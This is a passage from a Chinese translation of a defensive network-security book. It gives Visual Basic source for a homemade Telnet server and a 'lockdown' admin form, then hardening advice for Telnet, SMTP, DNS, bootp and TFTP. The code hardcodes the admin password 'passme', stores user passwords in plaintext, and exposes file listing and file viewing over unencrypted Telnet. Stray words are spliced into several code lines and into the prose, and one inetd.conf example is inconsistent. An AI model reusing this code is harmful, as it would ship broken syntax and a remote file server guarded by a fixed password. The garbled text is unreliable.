Dim d As Integer
Dim AllDrives As String
Dim CurrDrive As String
Dim tmp As String
  tmp = Space(64)
  rtn = GetLogicalDriveStrings(64, tmp)
  AllDrives = Trim(tmp)
  d = 0
  Do Until AllDrives = Chr$(0)
    d = d + 1
    CurrDrive = StripNulls(AllDrives)
    CurrDrive = Left(CurrDrive, 2)
    DrvS(d) = CurrDrive
    DrvC = d
  Loop
End Sub

Private Function StripNulls(startstr) As String
Dim pos As Integer
  pos = InStr(startstr, Chr$(0))
  If pos Then
    StripNulls = Mid(startstrjamme.strr, 1, pos - 1)
    startstr = Mid(startstr, pos + 1, Len(startstr))
    Exit Function
  End If
End Function
```

UserOpts.frm 可以定制为用于添加、删除和设置用户偏好的管理模块。

### UserOpts.frm

```
Option Explicit
Dim uItem As Integer
Dim aItem As Integer
Dim tStrng As String
Dim uUser As Integer
Dim Pcnt As Integer

Private Type Priv
  Path As String
  Accs As String

End Type
Private Privs(20) As Priv

Private Sub FDAdd_Click()
```

```
tStrng = Get_Path("")
If tStrng <> "" Then
  AccsList.AddItem (tStrng)
  Pcnt = Pcnt + 1
  UserIDs.No(uUser).Priv(Pcnt).Path = tStrng
  FDUpdate.Enabled = True
  FDRemove.Enabled = True
End If
AccsList_False
End Sub
```

```
Private Sub FDEdit_Click()
tStrng = Get_Path(AccsList.Text)
If tStrng <> "" Then
  AccsList.List(aItem) = tStrng
  UserIDs.No(uUser).Priv(aItem + 1).Path = tStrng
End If
AccsList_False
End Sub
```

```
Private Sub FDRemove_Click()
Dim z As Integer
For z = (aItem + 1) To UserIDs.No(uUser).Pcnt
  UserIDs.No(uUser).Priv(z).Path = UserIDs.No(uUser).Priv(z + 1).Path
  UserIDs.No(uUser).Priv(z).Accs = UserIDs.No(uUser).Priv(z + 1).Accs
Next
UserIDs.No(uUser).Pcnt = UserIDs.No(uUser).Pcnt - 1
AccsList.RemoveItem (aItem)
AccsList_False
End Sub
```

```
Private Sub FDUpdate_Click()
Dim z As Integer, s As String
UserIDs.No(uUser).Name = UsrName
UserIDs.No(uUser).Pass = Pword
UserIDs.No(uUser).Home = HomeDir
UserIDs.No(uUser).Pcnt = Pcnt
s = ""
z = aItem + 1
If FRead.Value = 1 Then s = s & "R"
If FWrite.Value = 1 Then s = s & "W"
If FDelete.Value = 1 Then s = s & "D"
If FEx.Value = 1 Then s = s & "X"
If DList.Value = 1 Then s = s & "L"
If DMake.Value = 1 Then s = s & "M"
If FDRemove.Value = 1 Then s = s & "K"
If DSub.Value = 1 Then s = s & "S"
Privs(z).Accs = s
UserIDs.No(uUser).Priv(z).Accs = s
AccsList_False
```

End Sub

Private Sub Form_Load()
Dim x As Integer, y As Integer
  y = UserIDs.Count
  If (y > 0) Then
    For x = 1 To UserIDs.Count
      UserList.AddItem UserIDs.No(x).Name
    Next
  End If
  aItem = -1
  uItem = -1
  AccsList_False
  UserList_False
  FDAdd.Enabled = False
End Sub

Private Sub Form_Terminate()
  Unload Me
End Sub

Private Sub UserList_LostFocus()
End Sub

Private Sub UsrDone_Click()
Dim z As Integer
  Form_Terminate
End Sub

Private Sub UsrRemove_Click()
Dim z As Integer, i As Integer
  z = UserIDs.Count
  For i = uUser To z
    UserIDs.No(i) = UserIDs.No(i + 1)
  Next
  UserList.RemoveItem (uItem)
  UserIDs.Count = z - 1
  AccsList.Clear
  ClearAccs
  UsrName = ""
  Pword = ""
  HomeDir = ""
  aItem = -1
  UserList_False
End Sub

Private Sub UsrAdd_Click()
Dim i As Integer, S1 As String
  S1 = "New User"
  UsrName = S1
  UserList.AddItem S1

```
i = UserIDs.Count + 1
UserIDs.No(i).Name = S1
UserIDs.Count = i
UserList_False
End Sub
```

```
Private Sub UserList_Click()
Dim x As Integer指定, z As Integer
uItem = UserList.ListIndex
Debug.Print "User List Item = " & uItem
uUser = uItem + 1
AccsList.Clear
ClearAccs
Pword = ""
HomeDir = ""
aItem = -1
UserList_True
AccsList_False
FDAdd.Enabled = True
UsrName = UserIDs.No(uUser).Name
Pword = UserIDs.No(uUser).Pass
HomeDir = UserIDs.No(uUser).Home
Pcnt = UserIDs.No(uUser).Pcnt
For z = 1 To Pcnt
  Privs(z).Path = UserIDs.No(uUser).Priv(z).Path
  Privs(z).Accs = UserIDs.No(uUser).Priv(z).Accs
  AccsList.AddItem Privs(z).Path
Next
End Sub
```

```
Private Sub AccsList_Click()
Dim x As Integer, z As Integer
aItem = AccsList.ListIndex
Debug.Print "Access List Item = " & aItem
ClearAccs
AccsList_True
z = aItem + 1
Debug.Print UserIDs.No(uUser).Priv(z).Accs
If InStr(Privs(z).Accs, "R") Then
  FRead.Value = 1
End If
If InStr(Privs(z).Accs, "W") Then
  FWrite.Value = 1
End If
If InStr(Privs(z).Accs, "D") Then
  FDelete.Value = 1
End If
If InStr(Privs(z).Accs, "X") Then
  FEx.Value = 1
End If
If InStr(Privs(z).Accs, "L") Then
```

DList.Value = 1
End If
    If InStr(Privs(z).Accs, "M") Then
      DMake.Value = 1
    End If
    If InStr(Privs(z).Accs, "K") Then
      DRemove.Value = 1
    End If
    If InStr(Privs(z).Accs, "S") Then
      DSub.Value = 1
    End If
End Sub

Private Sub AccsList_DblClick()
    aItem = AccsList.ListIndex
    tStrng = Get_Path(AccsList.Text)
    If tStrng <> "" Then
      AccsList.List(aItem) = tStrng
      UserIDs.No(uUser).Priv(aItem + 1).Path = tStrng
    End If
    AccsList.Selected(aItem) = False
End Sub

Private Sub UserList_True()
    UsrRemove.Enabled = True
End Sub

Private Sub UserList_False()
    Debug.Print "uItem=" & uItem
    UsrRemove.Enabled = False
    If uItem >= 0 Then
      UserList.Selected(uItem) = False
      uItem = -1
    End If
End Sub

Private Sub AccsList_True()
    FDEdit.Enabled = True
    FDRemove.Enabled = True
    FDUpdate.Enabled = True
End Sub

Private Sub AccsList_False()
    Debug.Print "aItem=" & aItem
    FDEdit.Enabled = False
    FDRemove.Enabled = False
    FDUpdate.Enabled = False
    If aItem >= 0 Then
      AccsList.Selected(aItem) = False
      aItem = -1

End If
End Sub

Private Sub ClearAccs()
FRead.Value = 0
FWrite.Value = 0
FDelete.Value = 0
FEx.Value = 0
DList.Value = 0
DMake.Value = 0
DRemove.Value = 0
DSub.Value = 0
End Sub

Function Get_Path(olds As String) As String
AddEditDir.DirPath = olds
AddEditDir.Show 1
If Tag <> "" Then
Get_Path = Tag
Tag = ""
End If
End Function
```

> **Tiger 注** 本章中给出的程序和配套文件可在本书附带的 CD 上找到。

### 端口 23：Telnet

通常与端口 23 对应的服务被称为远程登录的互联网标准协议。Telnet 运行在 TCP/IP 之上，作为远程登录会话的终端仿真器。根据预先配置的安全设置，该守护进程通常可以并且能够控制对操作系统的访问。将特定的黑客脚本条目上传到某些 Telnet 变体可能会导致缓冲区溢出，在某些情况下还会获取管理权限或 root 权限。

正如 *Hack Attacks Revealed* 中所解释的，telnet 守护进程可能导致严重的系统入侵：密码以明文形式传输，成功连接后允许远程命令执行。因此，除非您的标准通信策略需要 telnet，否则建议禁用 telnet。但是，如果 telnet 是必需的，也有方法可以保护它，就像端口 21 的文件传输协议一样。

与 FTP 和 *NIX 中大多数易受攻击的服务一样，在 /etc/inetd.conf 文件中注释掉 telnet 服务应完全禁用该守护进程（参见图 1.4 了解 FTP 停用）。请务必记住，要完成修改，请停止并重新启动 inetd 守护进程或重新启动操作系统。


在 Windows 系统中，若要禁用正在运行的 telnet 守护进程，请修改启动配置和/或终止活动进程。请参考 FTP 发布服务的步骤以及图 1.5 至图 1.8，因为禁用 telnet 的说明与之相同。

作为替代方案，您也可以始终通过边界防火墙和/或网关路由器过滤对该服务的访问，但这当然可能使服务容易受到内部攻击。

#### 使用 TCP Wrappers

telnet 的替代方案可以在顶级的第三方终端仿真服务器和客户端 GUI 中找到。但如果您需要使用 telnet 守护进程，还是有办法锁定端口 21 的通信。首先，建议修改您的 telnet 守护进程横幅，因为它可能会泄露发现数据，包括守护进程类型、版本和所在平台。更重要的是，如果您必须使用标准的 *NIX 原生守护进程，请务必对该服务进行*封装*。从根本上说，TCP wrapper 软件为配置在 /etc/inetd.conf 中的服务守护进程提供了更好的日志记录和访问控制。请注意，TCP wrappers 是*NIX 类型相关或专有的程序。至此，您应该有动力对所有活动的服务守护进程进行封装。

> **Tiger 提示** 本书附带的 CD 中提供了 Tcp_Wrapper 仓库，包含 *tcpd* 编译示例。支持以下 *NIX 操作系统：AIX、Digital、HP-UX、IRIX、Solaris、SunOS 和 Linux。

#### 安装 TCP Wrappers

安装 TCP wrapper 是一个简单的过程，分为四个简单步骤：

- 1. *将 TCP wrapper 复制到适当的 inetd.conf 目录。* 例如，在 Linuxsb 上，目录是 /etc/；AIX 使用目录 /usr/sbin；Digital 使用 /usr/sbin；HP-UX 9 和 10 分别使用 /etc 和 /usr/lbin；IRIX 使用 /usr/etc；Solaris 使用 /usr/sbin；Sun 使用 /usr/etc。安装后，TCP wrapper 将把所有日志记录到 /syslog.conf 发送邮件日志的任何位置。根据 *NIX 操作系统的不同，这些位置可能有所不同：AIX 为 /var/adm/messages；Digital 为 /var/adm/syslog.dated/[DATE]/mail.log；HP-UX 9 和 10 分别为 /usr/spool/mqueue/syslog 和 /usr/spool/mqueue/syslog；IRIX 为 /var/adm/SYSLOG；Solaris 和 SunOS 为 /var/log/syslog。

- 2. *修改 inetd.conf 文件以使用 TCP wrapper。* 要封装 telnet 服务或任何其他服务，只需将其在 inetd.conf 中的条目从：

```
telnet  stream  tcp  nowait  root  /usr/sbin/tcpd  in.telnetd
```

**图 1.13** 要修改 inetd.conf 文件，请编辑 tcpd（wrapper）的完整路径名，其余保持不变。

```
telnet  stream  tcp  nowait  root  /usr/sbin/in.telnetd  in.telnetd

改为

telnet  stream  tcp  nowait  root  /usr/sbin/tcpd  in.telnetd
```

参见图 1.13。

3. *配置访问控制文件。* TCP 封装通过两个文件来提供访问控制。访问过程在第一个匹配处停止，当匹配 /etc/hosts.allow 文件中的条目时将授予访问权限。否则，当匹配 /etc/hosts.deny 文件中的条目时将拒绝访问。除此之外，所有访问都将被授予。请注意，如果不提供任何访问控制文件，则可以关闭访问控制。有关自定义这些访问控制列表（ACL）的信息，请查看 Tcp_Wrapper 源包中包含的 *hosts_access* 手册页（如图 1.14 所示）。

4. *启动并测试 inetd 更改。* 要启动更改并启动 wrapper，只需重新启动操作系统或重新启动 inetd 守护进程以读取新的 inetd.conf 文件。此时，与任何修改一样，重要的是通过尝试使用封装的服务访问机器来测试功能。确保 tcpd 记录每次访问，更重要的是，根据新配置的 /etc/hosts.allow 和 /etc/hosts.deny 文件控制访问。

#### Tiger Telnet

如果您是寻求 telnet 服务的家庭用户和/或私人 Windows 用户，并且偏好完全控制和安全，您可以使用 TigerTelnetServ。通过它，您可以控制功能，为自己以及朋友和家庭成员提供安全的 telnet 远程访问。TigerTelnetServ（参见图 1.15）供您随意修改、分发和使用。尽管此版本支持的命令包括目录浏览、文件查看、用户查找、用户终止和守护进程关闭，但您可以随时添加更多功能。请注意，为避免混淆并确保安全，所有用户权限都通过 *Users.ini* 控制。

*Form1.frm* 包含主守护进程接口的代码。GUI 包括会话嗅探器、临时登录禁用选项以及服务锁定管理控制。服务锁定功能调用 Form2.frm，该文件初始化一个具有隐藏密码的特殊单登录守护进程。管理员密码通过源代码编程和编译。在锁定执行期间，除管理员账户外，所有登录都将被禁用。

#### Form1.frm

```
Private Sub acc_ConnectionRequest (ByVal requestID As Long)
i = i + 1
Load pol(i)
pol(i).Close
pol(i).Accept requestID
acc.Close
acc.Listen
For scan = 1 To 35
    If Ac_Name(scan) = Empty Then
        refid = scan
        Exit For
    End If
Next scan
Ac_Name(refid) = "no user"
Ac_Host(refid) = pol Stephen pol(i).RemoteHostIP
Ac_What(refid) = "login"
Ac_Sock(refid) = i
SendFile "files\ connect.txt", refid
Send Crt, refid
Send "Login: ", refid
Update
End Sub
```

```
Private Sub Command3_Click()
End Sub
```

```
Private Sub Command1_Click()
Unload Me
Form2.Show
End Sub
```

```
Private Sub Command4_Click()
 End
End Sub
```

```
Private Sub Update()
List1.Clear
For scan = 1 To 35
    If Ac_Name(scan) <> Empty Then
        If Ac_SuperUser(scan) = False Then
            List1.AddItem Ac_Name(scan) & " - " & Ac_Host (scan)
        Else
            List1.AddItem "@" & Ac_Name(scan) & " - " & Ac_Host (scan)
        End If
    End If
```

#### 黑客攻击拒绝

```
    p = p + 1
    End If
Next scan
Me.Caption = "Telnet - " & Trim(p) & " connection(s)"
End Sub
 
Private Sub Form_Load()
acc.LocalPort = 23
acc.Bind
acc.Listen
Crt = Chr(10) & Chr(13)
End Sub
 
Private Sub pol_Close(Index As Integer)
For scan = 1 To 35
    If Ac_Sock(scan) = Index Then
        refid = scan
Exit For
    End If
Next scan
Ac_Name(refid) = Empty
Ac_Input(refid) = Empty
Ac_Host(refid) = Empty
Ac_What(refid) = Empty
Ac_Sock(refid) = Empty
pol(Index).Close
Update
End Sub
```

```
Private Sub SendFile(ByVal filename As String, ByVal person As Integer)
Open filename For Input As #1
Do
    If EOF(1) Then Exit Do
    Line Input #1, temp
    Send temp & Chr(10) & Chr(13), person
Loop
Close #1
End Sub
```

```
Private Sub Send(ByVal text As String, ByVal person As Integer)
If Ac_Name(person) = "" Then Exit Sub
pol(Ac_Sock(person)).SendData text
End Sub
```

```
Private Sub pol_DataArrival(Index As Integer, ByVal bytesTotal As Long)
pol(Index).GetData text, vbString
For scan = 1 To 35
    If Ac_Sock(scan) = Index Then
        refid = scan
        Exit For
    End If
Next scan
```

```
Next scan
stack = ""
If refid = 0 Then
    pol(Index).Close
    Exit Sub
End If
For H = 1 To Len(text)
    pg = Mid(text, H, 1)
    If pg = Chr(13) Then
        If Ac_What(refid) = "prompt" Then
            reason = "command not found"
            Ac_Input(refid) = Trim(Ac_Input(refid))
            Send Crt, 1
            If Ac_Input(refid) = Empty Then goodcom = True
            
            For scan = 1 To Len(Ac_Input(refid))
                If Mid(Ac_Input(refid), scan, 1) = " " Then
                    i_command = Mid(Ac_Input(refid), 1, scan - 1)
                    i_arg = Mid(Ac_Input(refid), scan + 1, 100)
                    Exit For
                End If
            Next scan
            
            If i_command = "" Then i_command = Ac_Input(refid)
            If i_command = "logout" Then
                pol(Index).Close
                Ac_Name(refid) = Empty
                Ac_Input(refid) = Empty
                Ac_Host(refid) = Empty
                Ac_What(refid) = Empty
                Ac_Sock(refid) = Empty
                Ac_SuperUser(refid) = Empty
                Update
                Exit Sub
            End If
            If i_command = "shutdown" Then
                If Ac_SuperUser(refid) = True Then
                    End
                Else
                    goodcom = False
                    reason = "permission denied"
                End If
            End If
            If i_command = "who" Then
                goodcom = True
                For scan = 1 To 35
                    If Ac_Name(scan) <> "" And Ac_Name(scan) <> "no user" Then
                        result = ""
                        If Ac_SuperUser(scan) = True Then
                            result = "@"
                        End If
```

 ```
result = result & Ac_Name(scan)
For dscan = 1 To 10 - Len(result)
    result = result & " "
Next dscan
result = result & Ac_Host(scan)
Send result & Crt, refid
End If
Next scan
End If
If i_command = "killuser" Then
    If Ac_SuperUser(refid) = True Then
        goodcom = False
        reason = "no such user"
        For scan = 1 To 35
            If Ac_Name(scan) <> Empty Then
                If Ac_Name(scan) = i_arg Then
                    pol(Ac_Sock(scan)).Close
                    Ac_Name(scan) = Empty
                    Ac_Input(scan) = Empty
                    Ac_Host(scan) = Empty
                    Ac_What(scan) = Empty
                    Ac_Sock(scan) = Empty
                    Ac_SuperUser(scan) = Empty
                    goodcom = True
                    Update
                End If
            End If
        Next scan
    Else
        goodcom = False
        reason = "permission denied"
    End If
End If
If goodcom = False Then
    stack = stack & "bash: " & i_command & ": " & reason & Crt
End If
Ac_Input(refid) = Empty
stack = stack & Ac_Name(refid) & "@Telnet> "
Send stack, refid
Exit Sub
End If
If Ac_What(refid) = "login" Then
    If Ac_Input(refid) = Empty Then
        stack = stack & Crt
        stack = stack & Crt
        stack = stack & "Login: "
        Send stack, refid
        Exit Sub
    End If
    Ac_Name(refid) = Ac_Input(refid)
    Ac_Input(refid) = Empty

stack = stack & Crt
stack = stack & "Password: "
Ac_What(refid) = "password"
Send stack, refid
Exit Sub
End If
If Ac_What(refid) = "password" Then
Open "files\users.ini" For Input As #1
Do
If EOF(1) Then Exit Do
Line Input #1, temp
If Mid(temp, 1, 1) <> "#" Then
G = 0

rscan:
For scan = 1 To Len(temp)
If Mid(temp, scan, 1) = "," Then
G = G + 1
If G = 1 Then
load_name = Mid(temp, 1, scan - 1)
temp = Mid(temp, scan + 1, 100)
GoTo rscan
End If
If G = 2 Then
load_password = Mid(temp, 1, scan - 1)
temp = Mid(temp, scan + 1, 100)
GoTo rscan
End If
If G = 3 Then
load_su = Mid(temp, 1, scan - 1)
temp = Mid(temp, scan + 1, 100)
End If

If Check1.Value = False Then

If load_name = Ac_Name(refid) Then
If load_password = Ac_Input(refid) Then
stack = stack & Crt
stack = stack & "Login approved." & Crt & Crt

stack = stack & Ac_Name(1) & "@Telnet> "
Ac_What(refid) = "prompt"
Ac_Input(refid) = Empty
Ac_SuperUser(refid) = False
If load_su = "1" Then
Ac_SuperUser(refid) = True
End If

Close #1
Send stack, refid
Update
Exit Sub

End If
Ac_Input(refid) = Empty
End If
End If
Next scan
End If
Loop
Close #1
Ac_Input(refid) = Empty
stack = stack & Crt
stack = stack & "Login incorrect" & Crt & Crt
stack = stack & "Login: "
Send stack, refid
Ac_What(refid) = "login"
Exit Sub
End If
End If
If pg = Chr(8) Then
If Ac_Input(refid) <> "" Then
Ac_Input(refid) = Mid(Ac_Input(refid), 1, Len(Ac_Input(refid)) - 1)
If Ac_What(refid) <> "password" Then
Send Chr(8) & " " & Chr(8), refid
End If
End If
Exit Sub
End If
If pg = Chr(21) Then
If Ac_Input(refid) <> "" Then
For G = 1 To Len(Ac_Input(refid))
Send Chr(8) & " " & Chr(8), refid
Next G
End If
Ac_Input(refid) = ""
Exit Sub
End If
If Ac_What(refid) <> "password" Then
Send pg, refid
End If
Ac_Input(refid) = Ac_Input(refid) & pg
Next H
End Sub
Private Sub pol_Error(Index As Integer, ByVal Number As Integer,
Description As String, ByVal Scode As Long, ByVal Source As String,
ByVal HelpFile As String, ByVal HelpContext As Long, CancelDisplay As
Boolean)
For scan = 1 To 35
If Ac_Sock(scan) = Index Then
refid = scan

Exit For
End If
Next scan
Ac_Name(refid) = Empty
Ac_Input(refid) = Empty
Ac_Host(refid) = Empty
Ac_What(refid) = Empty
Ac_Sock(refid) = Empty
pol(Index).Close
Update
End Sub
```

下一个窗体是特别的管理员版本，名为 lockdown，采用单一登录模式，接受一个已编程并编译进源代码的密码。该窗体中的 `If...Pass==...Then...Else` 序列包含密码（在本例中为 *passme*）。

#### Form2.frm

```
Dim Pass As Boolean
Dim Command As String

Private Sub Command2_Click()
Unload Me
End Sub

Private Sub Dir1_Change()
File1.Path = Dir1.Path
End Sub

Private Sub Form_Load()
Winsock1.LocalPort = 23
Winsock1.Listen
Label1.Caption = ""
Dir1.Path = "C:\"
End Sub

Private Sub Winsock1_Close()
Winsock1.Close
Do Until Winsock1.State = sckClosed
DoEvents
Loop
Winsock1.LocalPort = 23
Winsock1.Listen
Dir1.Path = "C:\"
Pass = False
End Sub

Private Sub Winsock1_ConnectionRequest(ByVal requestID As Long)

Winsock1.Close
Winsock1.Accept requestID
Do Until Winsock1.State = 7
DoEvents
Loop
Me.Caption = Winsock1.RemoteHostIP
Winsock1.SendData "Password: "
End Sub

Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long)
Dim Data As String
Winsock1.GetData Data
If Asc(Data) = 13 Then
    Label1.Caption = Command
    If Pass = False Then
        If Command = "passme" Then Pass = True: Winsock1.SendData vbCrLf
& "welcome" & vbCrLf: Winsock1.SendData "C:\ >" Else Winsock1.SendData
"Password incorrect!" & vbCrLf: Winsock1.SendData "Password: "
    Else
        If LCase(Command) = "cd.." Then
            If Dir1.Path <> "C:\" Then Dir1.Path = ".."
            If Dir1.Path <> "C:\" Then Winsock1.SendData
UCase(Dir1.Path) & "\ >" Else Winsock1.SendData "C:\ >"
            Command = ""
            Exit Sub
        End If
        If LCase(Command) = "cd." Then
            Dir1.Path = "."
            If Dir1.Path <> "C:\" Then Winsock1.SendData
UCase(Dir1.Path) & "\ >" Else Winsock1.SendData "C:\ >"
            Command = ""
            Exit Sub
        End If
        If LCase(Command) = "dir" Then
            Dim Length As Integer
            For i = 0 To Dir1.ListCount - 1
                Winsock1.SendData Dir1.List(i) & "     <DIR>" & vbCrLf
            Next
            For i = 0 To File1.ListCount
                Winsock1.SendData File1.List(i) & vbCrLf
            Next
            If Dir1.Path <> "C:\" Then Winsock1.SendData
UCase(Dir1.Path) & "\ >" Else Winsock1.SendData "C:\ >"
            Command = ""
            Exit Sub
        End If
        If LCase(Left(Command, 4)) = "view" Then
            U = Right(Command, Len(Command) - 5)
            On Error GoTo err1
            If Dir1.Path = "C:\" Then
            Open "C:\" & U For Input As #1
            Do Until EOF(1)
```

Line Input #1, O
Winsock1.SendData O & vbCrLf
Loop
Close #1 Encyclopedi. If Dir1.Path <> "C:\" Then Winsock1.SendData
UCase(Dir1.Path) & "\ >" Else Winsock1.SendData "C:\ >"
Command = ""
Exit Sub
err1:
Winsock1.SendData Err.Description & vbCrLf
If Dir1.Path <> "C:\" Then Winsock1.SendData
UCase(Dir1.Path) & "\ >" Else Winsock1.SendData "C:\ >"
Command = ""
Exit Sub
End If
If LCase(Left(Command, 2)) = "cd" And LCase(Left(Command, 3)) <>
"cd." And LCase(Left(Command, 3)) <> "cd\" And Len(Command) > 3 Then
U = Right(Command, Len(Command) - 3)
On Error GoTo err1
If Dir1.Path <> "C:\" Then Dir1.Path = Dir1.Path & "\ " & U
Else Dir1.Path = Dir1.Path & U
If Dir1.Path <> "C:\" Then Winsock1.SendData
UCase(Dir1.Path) & "\ >" Else Winsock1.SendData "C:\ >"
Command = ""
Exit Sub
End If
If LCase(Command) = "cd\" Then
Dir1.Path = "C:\"
If Dir1.Path <> "C:\" Then Winsock1.SendData
UCase(Dir1.Path) & "\ >" Else Winsock1.SendData "C:\ >"
Command = ""
Exit Sub
End If
If LCase(Command) = "quit" Then
Winsock1.SendData "Goodbye!" & vbCrLf
Winsock1_Close
Command = ""
Exit Sub
End If
If LCase(Command) = "help" Then
Open App.Path & "\help.txt" For Input As #1
Do Until EOF(1)
Line Input #1, E
Winsock1.SendData E & vbCrLf

Loop
Close #1
If Dir1.Path <> "C:\" Then Winsock1.SendData
UCase(Dir1.Path) & "\ >" Else Winsock1.SendData "C:\ >"
Command = ""
Exit Sub
End If
Winsock1.SendData "Wrong Command!" & vbCrLf & "Type help for
help" & vbCrLf
If Dir1.Path <> "C:\" Then Winsock1.SendData UCase(Dir1.Path) &
"\ >" Else Winsock1.SendData "C:\ >"
End If
Command = ""
Else
Command = Command & Data
End If
End Sub
```

### 端口 25：SMTP

简单邮件传输协议（SMTP）是互联网中最常用于定义电子邮件如何传输的协议。默认情况下，SMTP 守护进程监听端口 25 上的传入邮件，然后将消息复制到相应的邮箱中。如果邮件无法送达，通常会向发送方返回一份错误报告，其中包含未送达邮件的第一部分。在建立与端口 25 的 TCP 连接后，作为客户端的发送方机器等待作为服务器接收方机器发送一行文本来表明其身份并告知是否准备接收邮件。由于 TCP 的可靠字节流，通常不需要校验和（相关内容请参阅 *Hack Attacks Revealed, Second Edition*）。当所有电子邮件交换完毕后，连接被释放。与 SMTP 相关的最常见漏洞包括邮件轰炸、邮件垃圾信息以及 numerous 拒绝服务（DoS）攻击。然而，攻击者通常针对的是从该服务收集信息。

当用户从本地机器发送电子邮件时，其互联网服务提供商（ISP）的域名服务器（DNS）会将消息转发给互联网的主 DNS 集群进行查询。这些集群服务器将实际的域名（电子邮件地址中“@”符号之后的后半部分）转换为 IP 地址。例如，在电子邮件地址 john@xyz-inc.com 中，xyz-inc.com 将被转换为某个公共 IP 地址。该 IP 地址代表一个特殊 DNS 服务器的位置，该服务器知道如何转发所有发往 @xyz-inc.com 的邮件。基本上，该特殊 DNS 服务器有一个邮件交换（MX）记录，指向另一个 IP 地址。通常，这个“另一个”IP 地址是实际监听 @xyz-inc.com 端口 25 上消息的邮件服务器（请参阅图 1.16 以获取图示）。
```

图 1.16 电子邮件生命周期。

通常，SMTP 服务在 *NIX 系统上是禁用的；而且它不是 Windows 操作系统类型的原生功能。然而，如果需要 SMTP，建议修改守护进程标识（banner），因为它可能泄露探测数据。此外，与大多数其他服务守护进程一样，你应该使用 Tcp_Wrapper 来包装该服务（参见前面的“端口 23：Telnet”部分，了解更多关于包装服务的信息）。

为了防止未经授权或恶意的 SMTP 使用，将服务配置为在本地邮件域内充当邮件路由网关非常重要。守护进程绝不应接受外部路由请求。还建议配置详细的日志记录，并进行某种形式的归档处理，以便于故障排查，在某些情况下，还可以作为潜在黑客攻击起诉的证据。

图 1.17 SMTP-NAT 流程。

最终，SMTP 服务器及其驻留服务最重要的老虎技术（tiger technique）是 SMTP-NAT-DMZ 流程。NAT 是网络地址转换（network address translation）的缩写，它通常由防火墙或接入路由器执行。该功能用于将内部 IP 地址转换为可路由的互联网地址，反之亦然。安全实现包括内部（本地）与外部（互联网）地址之间的静态转换，仅允许对每个相应服务进行特定端口访问。图 1.17 是 NAT 示意图。

图中显示 SMTP 服务器位于防火墙后面的本地局域网（LAN）上。在这种情况下，防火墙会将互联网地址转换为 SMTP 服务器的内部地址，以便从互联网接收邮件传输。根据防火墙安全策略，这可能是一个相当安全的解决方案。然而，更好的解决方案是引入一个非军事区，即 DMZ。

DMZ 引入了另一个网络，它连接到防火墙，但与内部局域网分开。这样，如果针对 SMTP 服务器防护的成功渗透攻击发生，攻击者将无法访问内部局域网（见图 1.18）。在这两种情况下，防火墙都将配置为 NAT，包括状态过滤，仅允许与 SMTP 服务器的 25 端口进行通信。当然，服务器应配置为在本地邮件域内充当邮件路由网关。守护进程绝不应接受外部路由请求。

另外，不要忘记使用 PGP 或类似的可比方法应用加密，以确保电子邮件交易安全。稍后在这本书中，我们将探讨针对 sendmail 和 MS Exchange 的特定漏洞对策，因为它们与破解攻击有关。

### 端口 53：域名（Domain）

域名是基于字符的标识符，用于标识一个或多个 IP 地址。这项服务存在的原因仅仅是因为字母域名比 IP 地址更容易让人记住。域名服务（DNS），也称为 BIND，将这些域名翻译回其各自的 IP 地址。回想一下，通过因特网传输的数据报使用地址；因此，每次指定域名时，DNS 服务守护进程必须将名称翻译成相应的 IP 地址。通过在浏览器中输入域名，比如 TigerTools.net，DNS 服务器将这个字母域名映射到一个 IP 地址，用户被转发到该地址查看网站。同样的流程适用于 SMTP 电子邮件投递、FTP 连接、远程 telnet 访问等。

域名服务通常不是操作系统实现中的标准主动功能，因此在 Windows NT 中必须手动添加，在 *NIX 中必须单独编译。

如果该服务是必需的，建议使用 ISP 或将服务器放置在防火墙外的 DMZ 上（参见前面的“端口 25：SMTP”部分，了解更多关于创建 DMZ 的详细信息），并升级到最新版本。

当从 ISP 购买 DNS 服务不可行时，还有其他方法可以获得；因此，我们将研究以下 DNS 漏洞利用对策：

- **反反向 DNS 查询（Anti-reverse DNS Queries）。** 确保你的 DNS 守护进程提供反向 DNS 查找，以防止攻击者控制 DNS 服务器并使其解析为另一个网络中受信任的主机。

- **DNS 版本探测（DNS Version Discovery）。** 出于显而易见的原因，建议修改 DNS 守护进程模块，使其不向外部提供服务版本信息。这通常可以通过标准探测查询获得。在*《黑客攻击揭秘，第二版》*中描述的 TigerSuite，以及图 1.19 所示，可以在这方面为你提供帮助。

同样，在 *NIX 系统上，建议对域名服务使用 TCP Wrappers 和/或特定的访问过滤和防火墙技术。

### 端口 67：Bootp

bootp 互联网协议使无盘工作站能够发现自己的 IP 地址。此过程由网络上的 bootp 服务器根据工作站的硬件或 MAC 地址进行控制。bootp 的主要弱点与一个容易发生缓冲区溢出攻击的内核模块有关，这会导致系统崩溃。尽管大多数报告的事件都是本地或内部尝试，但许多仍在运行的旧系统且可从互联网访问，仍然存在漏洞。

```
bootp dgram udp wait root /usr/sbin/tcpd bootpd
```

图 1.20 包装端口 67 和 bootp 服务。

除了本书稍后讨论的反欺骗和泛洪老虎技术外，最初的问题涉及守护进程的节点列表配置。必须强制实施一个允许接收 bootp 服务器响应的可用节点列表（通过 MAC 地址）。此外，与许多服务守护进程一样，最好使用 Tcp_Wrapper 来包装该服务，如图 1.20 所示（请参阅前面的“端口 23：Telnet”部分，了解更多关于包装服务的信息）。

### 端口 69：TFTP

TFTP（普通文件传输协议）通常用于将网络操作系统（IOS）加载到各种路由器和交换机中，默认情况下，在端口 69“监听”的 TFTP 服务是作为 FTP 的一种更简单的形式运行的。简而言之，TFTP 是一种用于传输文件的非常简单的协议。TFTP 还被设计为适应只读内存，并在无盘系统的引导过程中使用。请注意，TFTP 数据包没有提供身份验证：该协议是为引导过程期间的使用而设计的，因此不可能提供用户名和密码。守护进程的许多变体中的这些漏洞使得互联网上的任何人都可以使用简单的技术来检索世界可读文件的副本，例如 `/etc/passwd`（密码文件），以进行解密。稍后我们将更多地讨论这些漏洞利用的对策。

因此，这个精简版 FTP 守护进程应该被禁用或仅在本地“受信任的”网络段上使用，这不足为奇。在 `/etc/inetd.conf` 文件中注释掉 TFTP 服务应该可以禁用该守护进程。并且不要忘记停止并重新启动 inetd 守护进程或重新启动整个操作系统。在 Windows 系统中，修改启动配置或终止活动进程，如前面针对端口 21：FTP 对策所述。

如果需要此守护进程，请务必获取最新的 *NIX 版本，并按照端口 23：Telnet 部分中的说明包装该服务。

**图 1.21** Windows 版 Tiger TFTP 安全守护进程。

#### Tiger TFTP

